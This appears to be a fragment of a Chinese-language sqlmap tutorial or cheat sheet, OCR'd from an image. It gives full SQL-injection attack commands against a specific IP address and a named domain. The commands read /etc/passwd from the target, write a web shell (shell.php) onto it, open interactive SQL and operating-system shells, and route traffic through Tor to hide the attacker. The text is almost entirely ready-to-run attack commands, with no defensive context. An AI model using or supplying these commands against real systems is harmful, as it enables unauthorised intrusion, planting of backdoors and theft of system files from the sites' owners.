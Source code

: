 ##### **—file-read：文件系统访问**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —file-read=”/etc/passwd”



##### **—file-write、—file-dest ：写文件到目标位置** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —file-write=”shell.php” —file-dest “/tmp/shell.php”



##### **—sql-shell ：进入交互式mysql窗口** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —sql-shell



##### **—os-shell ：进入命令行窗口** 



> **python sqlmap.py -u “**http://59.63.200.79:8003/?id=1**“ —os-shell**



##### **使用Tor代理**

> sqlmap.py -u http://navisec.it/123.asp?id=1 —tor -tor-type=SOCKS5 —tor-port=9050 —check-tor